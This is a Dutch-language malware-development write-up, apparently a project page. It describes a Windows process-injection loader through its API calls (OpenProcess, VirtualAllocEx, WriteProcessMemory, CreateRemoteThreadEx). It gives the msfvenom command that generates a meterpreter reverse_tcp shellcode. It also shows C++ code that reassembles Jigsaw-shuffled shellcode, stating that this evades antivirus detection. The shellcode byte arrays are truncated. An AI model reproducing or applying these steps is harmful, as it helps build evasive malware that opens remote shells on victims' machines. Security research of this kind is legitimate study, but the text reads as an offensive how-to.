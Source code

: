 Voor het maken van de malware zijn de volgende **API-calls** gebruikt, deze worden hieronder in detail besproken:

- **OpenProcess**: Deze functie wordt gebruikt om een handle naar een doelproces te verkrijgen. Met een geldig handle kunnen we toegang krijgen tot het geheugen van het doelproces en het manipuleren.
- **VirtualAllocEx**: Deze API-functie reserveert geheugen in het doelproces. Het gereserveerde geheugen biedt een veilige ruimte waarin we onze shellcode kunnen plaatsen en uitvoeren.
- **WriteProcessMemory**: Hiermee schrijven we de shellcode naar de eerder toegewezen geheugenbuffer in het doelproces. Dit is een belangrijke stap om ervoor te zorgen dat onze payload klaarstaat voor uitvoering.
- **CreateRemoteThreadEx**: Deze functie start een nieuwe thread in het doelproces, die begint met de uitvoering van onze shellcode. Dit is de laatste stap in het injectieproces om de payload actief te maken.
- **CreateToolhelp32Snapshot**: Hiermee maken we een snapshot van alle actieve processen op het systeem. Deze snapshot biedt de basis voor het identificeren van het doelproces waarin we willen injecteren.
- **Process32First/Process32Next**: Met deze functies doorlopen we de processen in de snapshot, zodat we het juiste doelproces kunnen vinden op basis van de naam of andere criteria.

## Obfuscation met Jigsaw
De malware moet voorzien zijn van een **Reverse Shell**, om deze shell te creëren, heb ik gebruik gemaakt van **msfvenom**, een tool die onderdeel is van het **Metasploit Framework**. Om de **Shellcode** te genereren heb ik de volgende commando gebruikt:
```shell
msfvenom --platform --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread -f c --var-name=shellcode -o payload.bin
```

Met dit commando genereerde ik een payload die een verbinding opzet naar een specifieke host en poort, zodat een remote shell toegankelijk wordt. Omdat Metasploit een veelgebruikte en bekende tool is, zijn de gegenereerde shellcodes vaak gedetecteerd door antivirussoftware. Hier komt de tool **Jigsaw** goed van pas. Jigsaw splitst de gegenereerde shellcode in kleine stukjes en husselt deze door elkaar. De oorspronkelijke positie van elk stukje wordt opgeslagen in een aparte array, zodat de code later opnieuw kan worden opgebouwd.

[Jigsaw](https://github.com/RedSiege/Jigsaw)

De `reconstruct_shellcode` functie kan de **Shellcode** in de juiste volgorde herstellen voordat deze geïnjecteerd wordt. Hiermee kan antivirus detectie omzeild worden.
```c++
unsigned char jigsaw[511] = { 0x49, 0x5a ... 0x24 };
int positions[511] = { 159, 187 ... 147 };
int calc_len = 511;
unsigned char calc_payload[511] = { 0x00 };
int position;

void reconstruct_shellcode() {
    for (int idx = 0; idx < sizeof(positions) / sizeof(positions[0]); idx++) {
        position = positions[idx];
        calc_payload[position] = jigsaw[idx];
    }
}
```
